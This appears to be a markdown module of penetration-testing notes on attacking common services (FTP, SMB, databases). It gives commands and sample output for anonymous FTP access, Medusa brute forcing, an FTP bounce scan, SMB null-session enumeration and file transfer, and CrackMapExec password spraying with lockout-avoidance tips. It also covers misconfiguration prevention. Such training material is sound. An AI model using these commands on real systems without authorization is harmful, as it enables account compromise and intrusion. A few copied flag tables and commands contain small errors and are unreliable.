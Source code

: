 # 🛠️ Attacking Common Services  
*In the vast networked domains, familiar services stand as both guardians and unwitting gateways to the abyss. This module guides the adept through the ritual of enumerating and probing these common sentinels, unveiling hidden weaknesses and ancient vulnerabilities ripe for exploitation.*

> *“Every open port is a whisper in the dark, waiting to be answered.”*

---

<details>
<summary><h1>📢 Introduction</h1></summary>

Vulnerabilities are often discovered by individuals who deeply understand a technology, protocol, or service. As we progress in this field, we will encounter a variety of services to interact with, requiring us to **continuously adapt and learn new technologies**.

To successfully attack a service, we must understand **its purpose, how to interact with it, which tools are available, and the potential actions we can perform**.

This section will explore **common services** and demonstrate practical ways to interact with them effectively.

<details>
<summary><h3>File Share Services</h3></summary>

A file-sharing service is a system that facilitates, manages, and monitors the transfer of computer files. Historically, organizations relied primarily on internal file-sharing protocols such as **SMB**, **NFS**, **FTP**, **TFTP**, and **SFTP**. However, with the widespread adoption of cloud technologies, many companies now also use **third-party cloud-based** solutions like **Dropbox**, **Google Drive**, **OneDrive**, **SharePoint**, and cloud storage services such as **AWS S3**, **Azure Blob Storage**, and **Google Cloud Storage**.

In practice, we will often encounter a hybrid environment where both internal and external file-sharing systems are in use. For example, a server may host internal SMB shares while also synchronizing data with cloud storage.

This section will focus primarily on **internal file-sharing services**, although the same principles can apply to cloud storage solutions that are synced locally to servers and workstations.

</details>

<details>
<summary><h3>Server Message Block (SMB)</h3></summary>

**SMB** is a network file-sharing protocol most commonly used in **Windows environments**. It enables users and applications to read, write, and manage files on remote servers as if they were local. In a Windows network, it is common to find **shared folders** accessible over SMB, often used for collaboration or centralized file storage.

We can interact with SMB shares through:
* **Graphical User Interface (GUI)** – e.g., Windows File Explorer.
* **Command-Line Interface (CLI)** – e.g., `net use`, `dir`, or PowerShell commands in Windows; `smbclient` in Linux.
* **Specialized tools** – e.g., Impacket scripts, CrackMapExec, enum4linux.

The following sections will outline common methods for accessing and interacting with SMB from both Windows and Linux systems.

<details>
<summary><h3>Windows</h3></summary>

<details>
<summary><h4>GUI Method</h4></summary>

**Step 1: Open the Run Dialog Box**

Press `WINKEY` + `R` on your keyboard.

**Step 2: Enter the SMB Share Path**

In the Run dialog box, type the file share location in the following format:

```cmd
\\<IP>\<SHARE_NAME>
```

**Step 3: Authenticate if required**

If prompted, enter valid username and password credentials for the remote system.

**Step 4: Browse the Share**

Once connected, you can view, copy, edit, or delete files according to your permissions.

</details>

<details>
<summary><h4>Windows CMD - DIR</h4></summary>

The command dir displays a list of a directory's files and subdirectories.

**Run the `dir` command on the share**

```cmd
dir  \\<IP>\<SHARE_NAME>
```
```cmd
C:\tom> dir \\192.168.220.129\Finance\

Volume in drive \\192.168.220.129\Finance has no label.
Volume Serial Number is ABCD-EFAA

Directory of \\192.168.220.129\Finance

02/23/2022  11:35 AM    <DIR>          Contracts
               0 File(s)          4,096 bytes
               1 Dir(s)  15,207,469,056 bytes free
```

</details>

<details>
<summary><h4>Windows CMD - Net Use</h4></summary>


**OPTION 1 > Step 1: Use `net use` to connect to the share**

```cmd
net use n: \\<IP>\<SHARE_NAME>
```

**OPTION 2 > Step 1: Use `net use` and provide a username and password to authenticate to the share**

```cmd
net use n: \\<IP>\<SHARE_NAME> /user:<USER> <PASSWORD>
```

With the shared folder mapped as the `n` drive, we can execute Windows commands as if this shared folder is on our local computer. Let's find how many files the shared folder and its subdirectories contain.

**Step 2: Find how many files the shared folder and its subdirectories contain.**

```cmd
dir n: /a-d /s /b | find /c ":\"
```

</details>

<details>
<summary><h4>Windows PowerShell - Get-ChildItem</h4></summary>

**Run the `Get-ChildItem` command on the share**

```powershell
Get-ChildItem \\<IP>\<SHARE_NAME>
```
```powershell
# PS C:\tom> Get-ChildItem \\192.168.220.129\Finance\

#     Directory: \\192.168.220.129\Finance

# Mode                 LastWriteTime         Length Name
# ----                 -------------         ------ ----
# d-----         2/23/2022   3:27 PM                Contracts
```

</details>

<details>
<summary><h4>Windows PowerShell - New-PSDrive</h4></summary>

**OPTION 1 > Step 1: Map the shared folder to a drive letter using `New-PSDrive`**

```powershell
New-PSDrive -Name "N" -Root "\\<IP>\<SHARE_NAME>" -PSProvider "FileSystem"
```

**OPTION 2 > Step 1: Provide a username and password with Powershell to map the shared folder to a drive letter using `New-PSDrive`**

```powershell
$username = '<USER>'
$password = '<PASWORD>'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\<IP>\<SHARE_NAME>" -PSProvider "FileSystem" -Credential $cred
```
```powershell
# Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
# ----           ---------     --------- --------      ----                                               ---------------
# N                                      FileSystem    \\192.168.220.129\Finance
```

**Step 2: Find how many files the shared folder and its subdirectories contain.**

```powershell
N:
(Get-ChildItem -File -Recurse | Measure-Object).Count
```

</details>

</details>

<details>
<summary><h3>Linux</h3></summary>

Linux (UNIX) machines can also browse and mount SMB shares. This works whether the target server is a **Windows machine** or a **Samba server**. While some Linux distributions include GUI support, we will focus on using **command-line utilities** and tools to interact with SMB.

> **NOTE:** We need to install `cifs-utils` to connect to an SMB share folder. To install it we can execute from the command line `sudo apt install cifs-utils`.

<details>
<summary><h4>Linux - Mount</h4></summary>

**OPTION 1 > Step 1: Mount an SMB share to interact with its directories and files locally**

```bash
sudo mkdir /mnt/<SHARE_NAME>
sudo mount -t cifs -o username=<USER>,password=<PASWORD>,domain=. \\<IP>\<SHARE_NAME>
```

**OPTION 1 > Step 2: Use a credential file to mount an SMB share to interact with its directories and files locally**

```bash
sudo mkdir /mnt/<SHARE_NAME>
sudo mount -t cifs \\<IP>\<SHARE_NAME> /mnt/<SHARE_NAME> -o credentials=./credential_file.txt
```

The file `credential_file.txt` has to be structured like this:

```txt
username=plaintext
password=Password123
domain=.
```

</details>

</details>

</details>

<details>
<summary><h3>Command Line Utilities</h3></summary>

<details>
<summary><h4>Linux - SQSH</h4></summary>

The `sqlcmd` utility lets you enter Transact-SQL statements, system procedures, and script files through a variety of available modes:

* At the command prompt.
* In Query Editor in SQLCMD mode.
* In a Windows script file.
* In an operating system (Cmd.exe) job step of a SQL Server Agent job.

```bash
sqsh -S <IP> -U <USER> -P <PASSWORD>
```

</details>

<details>
<summary><h4>Linux - SQLCMD</h4></summary>

```bash
sqlcmd -S <IP> -U <USER> -P <PASSWORD>
```

</details>

<details>
<summary><h4>Linux - MySQL</h4></summary>

**Start an interactive SQL Session using Linux**

```bash
mysql -u <USER> -p<PASSWORD> -h <IP>
```

</details>

<details>
<summary><h4>Windows - MySQL</h4></summary>

**Start an interactive SQL Session using Windows**

```bash
mysql.exe -u <USER> -p<PASSWORD> -h <IP>
```

</details>

</details>

<details>
<summary><h3>Tools to Interact with Common Services</h3></summary>

| **SMB**        | **FTP**      | **Email**                       | **Databases**                               |
|----------------|-------------|----------------------------------|---------------------------------------------|
| smbclient      | ftp         | Thunderbird                     | mssql-cli                                   |
| CrackMapExec   | lftp        | Claws                           | mycli                                       |
| SMBMap         | ncftp       | Geary                           | mssqlclient.py                              |
| Impacket       | filezilla   | MailSpring                      | dbeaver                                     |
| psexec.py      | crossftp    | mutt                            | MySQL Workbench                             |
| smbexec.py     |             | mailutils                       | SQL Server Management Studio (SSMS)        |
|                |             | sendEmail                       |                                             |
|                |             | swaks                           |                                             |
|                |             | sendmail                        |                                             |

</details>

<details>
<summary><h3>General Troubleshooting</h3></summary>

Depending on the **Windows** or **Linux** version we are working with or targeting, we may face various challenges when trying to connect to a service.

Common reasons for **lack of access** to a resource include:

* Authentication issues
* Insufficient privileges
* Network connectivity problems
* Firewall restrictions
* Unsupported protocols

Errors may vary depending on the specific service targeted. It’s important to leverage these **error codes** by consulting official documentation or community forums, where solutions to similar problems can often be found.

</details>

You can refer to the [GENERAL](./00-general.md) module to find different ways to explore and list files.

</details>

---

<details>
<summary><h1>🎯 Protocol Specific Attacks</h1></summary>

<details>
<summary><h2>The Concept of Attacks</h2></summary>

To effectively understand attacks on different services, we need to examine **how these services can be targeted**. A concept is a general plan or framework applied across various projects. For example, consider the concept of building a house: most houses have a basement, four walls, and a roof. While the specific materials or designs may vary, the basic structure remains consistent worldwide. This illustrates that a concept requires general categories—like floors, walls, and roof—that provide a flexible but unified framework.

In our context, we need to develop a concept for attacking various services by grouping them into categories that summarize all services while still allowing for individual attack methods.

To clarify, we can try grouping services like **SSH**, **FTP**, **SMB**, and **HTTP** and identify what they have in common. From there, we can build a structure or pattern that helps us pinpoint attack vectors across these services using a single, unified approach.

This process of analyzing commonalities and creating adaptable attack pattern templates is ongoing—it’s not a finished product but an evolving framework that grows and improves over time.

The concept is structured around four categories that appear in every vulnerability:

<details>
<summary><h3>1. Source</h3></summary>

We can generalize **Source** as the origin of information used by a process to perform a specific task. Information can be passed to a process in many different ways.

| Information Source | Description                                                                                                           |
|--------------------|-----------------------------------------------------------------------------------------------------------------------|
| Code               | The results of already executed program code used as a source of information. These can come from different functions of a program. |
| Libraries          | A collection of program resources, including configuration data, documentation, help data, message templates, prebuilt code and subroutines, classes, values, or type specifications. |
| Config             | Usually static or prescribed values that determine how the process handles information.                              |
| APIs               | Application Programming Interfaces used as program interfaces for retrieving or providing information.               |
| User Input         | Manual entry of information by a person, when a program allows user input to process data accordingly.               |

The Source is the origin exploited to trigger vulnerabilities. The specific protocol used is irrelevant—for example, HTTP header injections can be manipulated manually, just like buffer overflows.

</details>

<details>
<summary><h3>2. Process</h3></summary>

The **Process** refers to how information received from the Source is handled. This processing is carried out according to the task defined by the program code. For each task, developers specify how information should be processed—using classes, functions, calculations, loops, and more. Since development approaches vary widely, the possibilities are nearly endless. Consequently, most vulnerabilities stem from flaws in the program code executed during this process.

| Process Components | Description                                                                                                          |
|--------------------|----------------------------------------------------------------------------------------------------------------------|
| PID                | The Process ID (PID) identifies the process being started or already running. Running processes have assigned privileges, and new ones are started accordingly. |
| Input              | Refers to information input assigned either by a user or resulting from a programmed function.                       |
| Data processing    | The hard-coded functions of a program that dictate how the received information is processed.                         |
| Variables          | Placeholders for information that different functions can further process during the task.                           |
| Logging            | The documentation of certain events, often stored in a register or file, meaning some information remains in the system. |

</details>

<details>
<summary><h3>3. Privileges</h3></summary>

**Privileges** exist in all systems that manage processes. They act like permissions that determine which tasks and actions can be performed. Simply put, privileges are like a bus ticket: if you have a ticket for a specific region, you can ride the bus; if not, you cannot.

Similarly, privileges (or “tickets”) can apply to various modes of transport—planes, trains, boats, and so on. In computer systems, privileges control and segment actions, requiring different permissions that the system enforces.

When a process attempts to perform a task, the system checks if it has the necessary privileges. If the required permissions and conditions are met, the system approves the requested action.

| Privileges | Description                                                                                                          |
|------------|----------------------------------------------------------------------------------------------------------------------|
| System     | These are the highest privileges allowing any system modification. In Windows, this is called SYSTEM; in Linux, root. |
| User       | Permissions assigned to a specific user. For security, Linux often creates separate users for specific services.     |
| Groups     | Categorization of users who share certain permissions to perform specific actions.                                    |
| Policies   | Determine execution of application-specific commands, applying to individual or grouped users and their actions.      |
| Rules      | Permissions to perform actions managed within the applications themselves.                                           |

</details>

<details>
<summary><h3>4. Destination</h3></summary>

Every task has at least one purpose or goal that must be fulfilled. If data changes were neither stored nor forwarded, the task would generally be unnecessary. The outcome of a task is either stored locally or forwarded to another processing point.

This endpoint is called the **Destination**, where the data changes occur. Destinations can be either local or remote processes. At the local level, files or records may be modified, or data may be forwarded to other local services for further use. However, the same process may also reuse the resulting data.

Once the data is stored or forwarded, the cycle of the task is complete.

| Destination | Description                                                                                                               |
|-------------|---------------------------------------------------------------------------------------------------------------------------|
| Local       | The local area refers to the system environment where the process occurred. Results are either further processed or stored locally. |
| Network     | The network area involves forwarding process results to a remote interface, such as an IP address, its services, or entire networks. Under some circumstances, these results can also influence routing. |

</details>

> **NOTE:** While these categories are consistent across services, the specific details within each may vary depending on the service.

We now have a repeatable pattern template that can be applied to attacks. This template helps analyze and understand exploits, and it is useful for debugging our own exploits during development and testing. Additionally, it can be applied to source code analysis, enabling step-by-step review of specific functionalities and commands. Lastly, this approach allows us to evaluate the risks associated with each task individually.

</details>

<details>
<summary><h2>Service Misconfigurations</h2></summary>

Misconfigurations occur when system administrators, technical support, or developers incorrectly set up the security framework of an application, website, desktop, or server. This often creates vulnerable pathways that unauthorized users can exploit.

<details>
<summary><h3>Authentication</h3></summary>

In previous years—and occasionally even today during assessments—it was common for services to come with default credentials (username and password). This poses a significant security risk because many administrators fail to change these defaults.

Nowadays, most software requires users to set up credentials during installation, which is an improvement. However, default credentials can still be found, especially in older applications.

Even if there are no default credentials, administrators might use weak or no passwords initially, intending to change them later, which creates vulnerabilities.

To prevent this, administrators should define and enforce strong password policies for all software deployed or tested within their environment.

<details>
<summary><h4>Anonymous Authentication</h4></summary>

Another common misconfiguration is **anonymous authentication**. When enabled, the service allows anyone with network access to connect without requiring credentials, creating a serious security risk.

</details>

<details>
<summary><h4>Misconfigured Access Rights</h4></summary>

**Misconfigured access rights** occur when user accounts are granted incorrect permissions. A significant risk arises when individuals lower in the organizational hierarchy gain access to sensitive information intended only for managers or administrators.

</details>

</details>

<details>
<summary><h3>Unnecessary Defaults</h3></summary>

The initial configuration of devices and software often includes default settings, features, files, and credentials. These defaults are usually designed for ease of use rather than security. Leaving these defaults unchanged is a poor security practice, especially in production environments. Unnecessary default settings should be modified to reduce the system’s attack surface.

Accepting default settings during setup can expose sensitive company information. Attackers may exploit default credentials or weak settings with minimal effort, sometimes just by a quick internet search.

**[Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)** is listed in the **[OWASP Top 10](https://owasp.org/Top10/)**. Common issues related to default values include:
* Unnecessary features enabled or installed (e.g., open ports, unused services, default pages, accounts, or privileges).
* Default accounts and passwords remain enabled and unchanged.
* Error handling exposes stack traces or overly detailed error messages to users.
* On upgraded systems, new security features are disabled or improperly configured.

</details>

<details>
<summary><h3>Preventing Misconfiguration</h3></summary>

Once we understand our environment, the most effective way to control risk is to lock down critical infrastructure and allow only necessary behaviors. Any communication or service not required by the application should be disabled. Examples include:

* Disabling admin interfaces when not in use.
* Turning off debugging features.
* Disabling default usernames and passwords.
* Configuring servers to prevent unauthorized access, directory listing, and related issues.
* Running regular scans and audits to detect misconfigurations or missing patches.

The **OWASP Top 10** includes guidance on securing installation processes, emphasizing the importance of a repeatable hardening process:

* Use a consistent hardening procedure to quickly and easily deploy secure environments.
* Configure development, QA, and production environments identically but with different credentials per environment.
* Automate this process to minimize setup effort and errors.

Other best practices include:

* Maintain a minimal platform by removing or not installing unnecessary features, components, documentation, and sample code.
* Regularly review and update configurations to apply security notes, updates, and patches (see A06:2021 - Vulnerable and Outdated Components). Also, review cloud storage permissions, such as S3 bucket policies.
* Implement a segmented application architecture to enforce secure separation between components or tenants via segmentation, containerization, or cloud security groups (ACLs).
* Send security directives to clients, such as appropriate security headers.
* Automate verification processes to ensure configuration effectiveness across all environments.

</details>

</details>

<details>
<summary><h2>Finding Sensitive Information</h2></summary>

When attacking a service, we act like detectives — gathering as much information as possible and carefully observing every detail. Every single piece of information can be critical.

**Example Scenario**

* Target services: Email, FTP, Databases, Storage
* Goal: Achieve Remote Code Execution (RCE) on any service
* Initial enumeration: Tried anonymous access on all services
* Outcome: Only FTP allowed anonymous access
* Found an empty file named `johnsmith` in FTP
* Tried using "johnsmith" as FTP username and password — unsuccessful
* Tried same credentials on Email service — successful login
* Searched emails for "password" and found John’s MSSQL credentials
* Accessed the MSSQL database and used built-in functions to execute commands
* Successfully gained RCE on the database server

This shows how a seemingly insignificant piece of data (the empty file `johnsmith`) can lead to discovering valuable information and achieving the ultimate goal.

**Types of Sensitive Information to Look For**

Usernames
* Email Addresses
* Passwords
* DNS Records
* IP Addresses
* Source Code
* Configuration Files
* Personally Identifiable Information (PII)

**Covered Services for Information Discovery**

* File Shares
* Email
* Databases

**Understanding What to Look For**

Every target is unique, so it’s important to:

* Understand the target’s business model, purpose, and processes
* Determine what information is valuable to the target
* Know what type of information is useful for your attack

Two key elements for finding sensitive information:

1. Understand how the service works
2. Know exactly what you are looking for

</details>

</details>

---

<details>
<summary><h1>📄 FTP</h1></summary>

The **File Transfer Protocol (FTP)** is a standard network protocol used to transfer files between computers.
It also supports file system operations such as:

* Changing the working directory
* Listing files
* Renaming files or directories
* Deleting files or directories

**Default Port:**
* TCP/21

**Common Uses**
* Moving files between systems in software development environments
* Updating or deploying website content
* Sharing large datasets within an organization

<details>
<summary><h2>Attack Vectors</h2></summary>

When targeting an FTP server, there are several possible approaches:

1. **Misconfiguration or Excessive Privileges**
    * Anonymous access enabled
    * Improper file/directory permissions
    * Sensitive files stored in publicly accessible directories

2. **Exploiting Known Vulnerabilities**
    * Outdated FTP server software
    * Weak authentication mechanisms

3. **Discovering New Vulnerabilities**
    * Protocol-specific flaws
    * Vendor-specific bugs

</details>

<details>
<summary><h2>Post-Access Actions</h2></summary>

Once access is gained, you should:

* **Enumerate the directory contents** to identify sensitive or critical files

* **Check folder structure** — FTP typically uses a hierarchical directory structure:

* **Search for sensitive files**, such as:
    * Configuration files (`config.php`, `.env`)
    * Database dumps (`backup.sql`)
    * Source code files
    * Credentials

</details>

<details>
<summary><h2>Nmap Scan</h2></summary>

**Example Command**

```bash
sudo nmap -sC -sV -p 21 <TARGET_IP>
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-sC`           | Run default NSE scripts (includes `ftp-anon`)   |
| `-sV`           | Detect service version and banner               |
| `-p 21`         | Scan only TCP port 21                           |
| `<TARGET_IP>` | Target IP address                               |

**Why This Matters**
* **Anonymous access** may expose files without authentication.
* **Version information** helps identify:
    * Known vulnerabilities
    * Possible exploits for the specific FTP server software

</details>

<details>
<summary><h2>Misconfigurations</h2></summary>

As discussed earlier, **anonymous authentication** can be enabled for services such as FTP.  
This can create serious security risks if not configured properly.

How Anonymous FTP Login Works
* **Username:** `anonymous`
* **Password:** *(empty)*

**Potential Risks**
If read/write permissions are **not** configured correctly:
* Sensitive files might be stored in folders accessible to anonymous users.
* Anyone could **download confidential data** without authentication.
* Attackers could **upload malicious scripts** to the server.

**Example Command**

```bash
ftp <TARGET_IP> <PORT>
```
```bash
# Connected to <TARGET_IP>.
# 220 (vsFTPd 2.3.4)
# Name (<TARGET_IP>:kali): anonymous
# 331 Please specify the password.
# Password:
# 230 Login successful.
# Remote system type is UNIX.
# Using binary mode to transfer files.

# ftp> ls

# 200 PORT command successful. Consider using PASV.
# 150 Here comes the directory listing.
# -rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
# 226 Directory send OK.
```

</details>

<details>
<summary><h2>Brute Forcing with Medusa</h2></summary>

**Example Command: **

```bash
medusa -u <USER_LIST> -P <PASSWORD_LIST> -h <TARGET_IP> -M ftp -n <PORT>
```
```bash
# Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
# ACCOUNT FOUND: [ftp] Host: <TARGET_IP> User: <USER> Password: <PASSWORD> [SUCCESS]
```

</details>

<details>
<summary><h2>FTP Bounce Attack</h2></summary>

An **FTP bounce attack** is a technique that abuses FTP servers to send network traffic to another device.  
This is achieved by manipulating the `PORT` command to make the FTP server connect to a different target.

**How It Works**

1. The attacker connects to an **FTP server** that is exposed to the internet (e.g., `FTP_DMZ`).
2. They use the `PORT` command to instruct the FTP server to interact with another host on the same internal network (e.g., `Internal_DMZ`).
3. The FTP server unknowingly **proxies requests** to the internal host.
4. This allows the attacker to:
   * Scan internal hosts
   * Identify open ports
   * Gather information for further exploitation

**Example Command**

```bash
nmap -Pn -v -n -p80 -b <USER>:<PASSWORD>@<ATTACKER_IP> <TARGET_IP>
```
```bash
# Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
# Resolved FTP bounce attack proxy to <ATTACKER_IP> (<ATTACKER_IP>).
# Attempting connection to ftp://anonymous:password@<ATTACKER_IP>:21
# Connected: 220 (vsFTPd 3.0.3)
# Login credentials accepted by FTP server!
# Initiating Bounce Scan at 04:55
# FTP command misalignment detected ... correcting.
# Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)

# Nmap scan report for <TARGET_IP>
# Host is up.

# PORT   STATE  SERVICE
# 80/tcp open  http
```

| **Flag** | **Purpose** |
|----------|-------------|
| `-Pn`    | Skip host discovery, treat all hosts as online. |
| `-v`     | Verbose output. |
| `-n`     | Disable DNS resolution. |
| `-p80`   | Scan only TCP port 80. |
| `-b`     | Perform FTP bounce scan (`user:pass@ftp_server target_ip`). |

> **NOTE:** FTP bounce attacks are deprecated in many modern FTP servers, but vulnerable implementations still exist in outdated or misconfigured environments.

</details>

</details>

---

<details>
<summary><h1>🗃️ SMB</h1></summary>

**Server Message Block (SMB)** is a protocol for sharing files and printers across networked systems.
Originally, SMB ran on **NetBIOS over TCP/IP** (TCP 139, UDP 137–138). Since Windows 2000, it can also run directly over **TCP 445**, which modern Windows systems use by default—though NetBIOS is still supported as a fallback.

**Samba** is the open-source SMB implementation for Unix/Linux, enabling interoperability with Windows clients.

When scanning, SMB on **port 445** indicates direct TCP usage, while **port 139** usually means SMB is running over NetBIOS.

**MSRPC (Microsoft Remote Procedure Call)** can run over SMB via named pipes, allowing functions to execute remotely without dealing with low-level networking.

<details>
<summary><h2>Attack Vectors</h2></summary>

**Attacking SMB** involves identifying its version, OS, and configuration. Potential vectors include:

* **Misconfigurations/excessive privileges**
* **Known or new vulnerabilities**
* **Sensitive shared files**
* **NetBIOS/RPC enumeration** to gather intel or perform actions.

</details>

<details>
<summary><h2>Nmap Scan</h2></summary>

**Example Command**

```bash
sudo nmap <TARGET_IP> -sV -sC -p139,445
```
```bash
# PORT    STATE SERVICE     VERSION
# 139/tcp open  netbios-ssn Samba smbd 4.6.2
# 445/tcp open  netbios-ssn Samba smbd 4.6.2
# MAC Address: 00:00:00:00:00:00 (VMware)

# Host script results:
# |_nbstat: NetBIOS name: RTH, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
# | smb2-security-mode: 
# |   2.02: 
# |_    Message signing enabled but not required
# | smb2-time: 
# |   date: 2021-09-19T13:16:04
# |_  start_date: N/A
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-sC`           | Run default NSE scripts (includes `ftp-anon`)   |
| `-sV`           | Detect service version and banner               |
| `-p 21`         | Scan only TCP port 21                           |
| `<TARGET_IP>` | Target IP address                               |

**Why This Matters**
* Identifies SMB version and implementation (e.g., Samba smbd 4.6.2)
* Reveals hostname and possible OS type
* Helps detect:
    * Misconfigurations (e.g., message signing disabled)
    * Potential vulnerabilities
* Provides NetBIOS details for further enumeration

</details>

<details>
<summary><h2>Misconfigurations</h2></summary>

SMB can be configured not to require authentication, which is often called a null session. Instead, we can log in to a system with no username or password.

<details>
<summary><h3>Anonymous Authentication</h3></summary>

SMB servers can allow access without requiring a username and password (null session), or we may use valid credentials if available.

* **Potential Access:** Using anonymous authentication, we can gather information such as:
    * List of file shares
    * Usernames and groups
    * Permissions and policies
    * Running services
* **Tools Supporting Null Sessions:**
    * `smbclient`
    * `smbmap`
    * `rpcclient`
    * `enum4linux`

</details>

<details>
<summary><h3>File Share</h3></summary>

**Using `smbclient`**

```bash
smbclient -N -L //<TARGET_IP>
```
```bash
# Sharename       Type      Comment
# -------         --        -------
# ADMIN$          Disk      Remote Admin
# C$              Disk      Default share
# notes           Disk      CheckIT
# IPC$            IPC       IPC Service (DEVSM)
# SMB1 disabled no workgroup available
```

---

**Using `smbmap`**

```bash
smbmap -H <TARGET_IP>
```
```bash
# [+] IP: <TARGET_IP>:445
# Disk       Permissions   Comment
# ----       -----------   -------
# ADMIN$     NO ACCESS     Remote Admin
# C$         NO ACCESS     Default share
# IPC$       READ ONLY     IPC Service (DEVSM)
# notes      READ, WRITE   CheckIT
```

**Browse Share Recursively:**

```bash
smbmap -H <TARGET_IP> -r <SHARE_NAME>
```
```bash
# [+] Guest session       IP: <TARGET_IP>:445    Name: <TARGET_IP>                           
#         Disk                                                    Permissions     Comment
#         --                                                   ---------    -------
#         notes                                                   READ, WRITE
#         .\notes\*
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    .
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    ..
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    LDOUJZWBSG
#         fw--w--w             116 Tue Apr 16 07:43:19 2019    note.txt
#         fr--r--r               0 Fri Feb 22 07:43:28 2019    SDT65CB.tmp
#         dr--r--r               0 Mon Nov  2 00:54:57 2020    TPLRNSMWHQ
#         dr--r--r               0 Mon Nov  2 00:56:51 2020    WDJEQFZPNO
#         dr--r--r               0 Fri Feb 22 07:44:02 2019    WindowsImageBackup
```

From the above example, the permissions are set to READ and WRITE, which one can use to upload and download the files.


**Download a file:**

```bash
smbmap -H <TARGET_IP> --download "notes\note.txt"
```
```bash
# [+] Starting download: notes\note.txt (116 bytes)
# [+] File output to: /rth/<TARGET_IP>-notes_note.txt
```

**Upload a file:**

```bash
smbmap -H <TARGET_IP> --upload ./test.txt "notes\test.txt"
```
```bash
# [+] Starting upload: test.txt (20 bytes)
# [+] Upload complete.
```

</details>

<details>
<summary><h3>Remote Procedure Call (RPC)</h3></summary>

RPC can be enumerated using a **null session** with `rpcclient` or automated tools like `enum4linux`.

**Using `rpcclient`**

```bash
rpcclient -U'%' <TARGET_IP>
```
```bash
rpcclient $> enumdomusers

# user:[mhope] rid:[0x641]
# user:[svc-ata] rid:[0xa2b]
# user:[svc-bexec] rid:[0xa2c]
# user:[roleary] rid:[0xa36]
# user:[smorgan] rid:[0xa37]
```

---

**Using `rpcclient`**

```bash
./enum4linux-ng.py <TARGET_IP> -A -C
```
```bash
# ENUM4LINUX - next generation

# ...

#  ====================================
# |    Service Scan on <TARGET_IP>     |
#  ====================================
# ...
# [*] Checking SMB (timeout: 5s)
# [*] SMB is accessible on 445/tcp
# [*] Checking SMB over NetBIOS (timeout: 5s)
# [*] SMB over NetBIOS is accessible on 139/tcp

#  ===================================================                            
# |    NetBIOS Names and Workgroup for <TARGET_IP>    |
#  ===================================================                                                                                         
# [*] Got domain/workgroup name: WORKGROUP
# [*] Full NetBIOS names information:
# - WIN-752039204 <00> -          B <ACTIVE>  Workstation Service
# - WORKGROUP     <00> -          B <ACTIVE>  Workstation Service
# - WIN-752039204 <20> -          B <ACTIVE>  Workstation Service
# - MAC Address = 00-0C-29-D7-17-DB
# ...
#  ========================================
# |    SMB Dialect Check on <TARGET_IP>    |
#  ========================================

# ...
```

</details>

</details>

<details>
<summary><h2>Protocol Specifics Attacks</h2></summary>

If a null session is not enabled, we will need credentials to interact with the SMB protocol. Two common ways to obtain credentials are [brute forcing](https://en.wikipedia.org/wiki/Brute-force_attack) and [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack).

<details>
<summary><h3>Brute Forcing and Password Spray</h3></summary>

**Brute-Forcing**
* Attempts as many passwords as possible against a single account.
* Risk: May trigger account lockout if threshold is exceeded.
* Recommendation: Only use if the lockout threshold is known; otherwise, avoid.

**Password Spraying**
* Targets multiple usernames with a single common password.
* Safer approach to avoid account lockouts.
* Guidelines:
    * Use 2–3 password attempts per user if lockout threshold is unknown.
    * Wait 30–60 minutes between attempts.

**Using `CrackMapExec` for Password Spraying**

```bash
crackmapexec smb <TARGET_IP> -u <USER_LIST> -p '<PASSWORD>' --local-auth
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\Administrator:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\admin:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\fsmith:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\tcrash:<PASSWORD> STATUS_LOGON_FAILURE 

# ...

# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\jurena:<PASSWORD> (Pwn3d!) 
```

> **Note:** By default `CrackMapExec` will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. it is very useful for spraying a single password against a large user list. Additionally, if we are targetting a non-domain joined computer, we will need to use the option `--local-auth`.

</details>

<details>
